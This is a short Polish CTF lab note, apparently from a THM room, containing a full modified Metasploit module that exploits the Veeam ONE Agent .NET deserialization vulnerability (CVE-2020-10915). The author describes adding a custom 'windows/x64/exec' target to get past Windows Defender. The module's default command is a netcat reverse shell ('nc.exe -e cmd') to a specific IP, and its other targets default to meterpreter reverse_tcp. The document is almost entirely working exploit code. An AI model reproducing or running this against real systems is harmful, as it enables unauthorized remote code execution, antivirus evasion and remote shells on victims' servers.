 # SET-THM-SCRIPT-Veeam.One.Agent.Servic-
Orginalny Scrypt w danym przypadku nie działał, ponieważ blokowany jest przez Defendera. Dodałem do kodu payload "windows/x64/exec" aby ominąć defendera.
Kod który zmodyfikowałem do metasploita pod kątem windows defendera FLAG3.


class MetasploitModule < Msf::Exploit::Remote

  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp
  include Msf::Exploit::CmdStager
  include Msf::Exploit::Powershell

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Veeam ONE Agent .NET Deserialization',
        'Description' => %q{
          This module exploits a .NET deserialization vulnerability in the Veeam
          ONE Agent before the hotfix versions 9.5.5.4587 and 10.0.1.750 in the
          9 and 10 release lines.

          Specifically, the module targets the HandshakeResult() method used by
          the Agent. By inducing a failure in the handshake, the Agent will
          deserialize untrusted data.

          Tested against the pre-patched release of 10.0.0.750. Note that Veeam
          continues to distribute this version but with the patch pre-applied.
        },
        'Author' => [
          'Michael Zanetta', # Discovery
          'Edgar Boda-Majer', # Discovery
          'wvu' # Module
        ],
        'References' => [
          ['CVE', '2020-10914'],
          ['CVE', '2020-10915'], # This module
          ['ZDI', '20-545'],
          ['ZDI', '20-546'], # This module
          ['URL', 'https://www.veeam.com/kb3144']
        ],
        'DisclosureDate' => '2020-04-15', # Vendor advisory
        'License' => MSF_LICENSE,
        'Platform' => 'win',
        'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
        'Privileged' => false,
        'Targets' => [
          [
            'Windows Command',
            'Arch' => ARCH_CMD,
            'Type' => :win_cmd,
            'DefaultOptions' => {
              'PAYLOAD' => 'cmd/windows/powershell_reverse_tcp'
            }
          ],
          [
            'Windows Dropper',
            'Arch' => [ARCH_X86, ARCH_X64],
            'Type' => :win_dropper,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/meterpreter_reverse_tcp'
            }
          ],
	  [
            'Windows custom Command',
            'Arch' => ARCH_CMD,
            'Type' => :win_cmd1,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/exec'
            }
          ],


          [
            'PowerShell Stager',
            'Arch' => [ARCH_X86, ARCH_X64],
            'Type' => :psh_stager,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/meterpreter/reverse_tcp'
            }
          ]
        ],
        'DefaultTarget' => 2,
        'DefaultOptions' => {
          'WfsDelay' => 10
        },
        'Notes' => {
          'Stability' => [SERVICE_RESOURCE_LOSS], # Connection queue may fill?
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK]
        }
      )
    )

    register_options([
      Opt::RPORT(2805),
      OptString.new(
        'CMD',
        [
          true,
          'np: (C:\Temp\nc.exe -e cmd 10.10.52.162 4444)',
          
        ]
      ),
      OptString.new(
        'HOSTINFO_NAME',
        [
          true,
          'Name to send in host info (must be recognized by server!)',
          'AgentController'
        ]
      )
    ])
  end

  def check
    vprint_status("Checking connection to #{peer}")
    connect

    CheckCode::Detected("Connected to #{peer}.")
  rescue Rex::ConnectionError => e
    CheckCode::Unknown("#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def exploit
    print_status("Connecting to #{peer}")
    connect

    print_status("Sending host info to #{peer}")
    sock.put(host_info(datastore['HOSTINFO_NAME']))

    res = sock.get_once
    vprint_good("<-- Host info reply: #{res.inspect}") if res

    print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")

    case target['Type']
    when :win_cmd1
      execute_command(datastore['CMD'])
    when :win_cmd
      execute_command(payload.encoded)
    when :win_dropper
      # TODO: Create an option to execute the full stager without hacking
      # :linemax or calling execute_command(generate_cmdstager(...).join(...))
      execute_cmdstager(
        flavor: :psh_invokewebrequest, # NOTE: This requires PowerShell >= 3.0
        linemax: 9001 # It's over 9000
      )
    when :psh_stager
      execute_command(cmd_psh_payload(
        payload.encoded,
        payload.arch.first,
        remove_comspec: true
      ))
    end
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def execute_command(cmd, _opts = {})
    vprint_status("Serializing command: #{cmd}")

    serialized_payload = Msf::Util::DotNetDeserialization.generate(
      cmd,
      gadget_chain: :TextFormattingRunProperties,
      formatter: :BinaryFormatter # This is _exactly_ what we need
    )

    print_status("Sending malicious handshake to #{peer}")
    sock.put(handshake(serialized_payload))

    res = sock.get_once
    vprint_good("<-- Handshake reply: #{res.inspect}") if res
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  end

  def host_info(name)
    meta = [0x0205].pack('v')
    packed_name = [name.length].pack('C') + name

    pkt = meta + packed_name

    vprint_good("--> Host info packet: #{pkt.inspect}")
    pkt
  end

  def handshake(serialized_payload)
    # A -1 status indicates a failure, which will trigger the deserialization
    status = [-1].pack('l<')

    length = status.length + serialized_payload.length
    type = 7
    attrs = 1
    kontext = 0

    header = [length, type, attrs, kontext].pack('VvVV')
    padding = "\x00" * 18
    result = status + serialized_payload

    pkt = header + padding + result

    vprint_good("--> Handshake packet: #{pkt.inspect}")
    pkt
  end
  
  
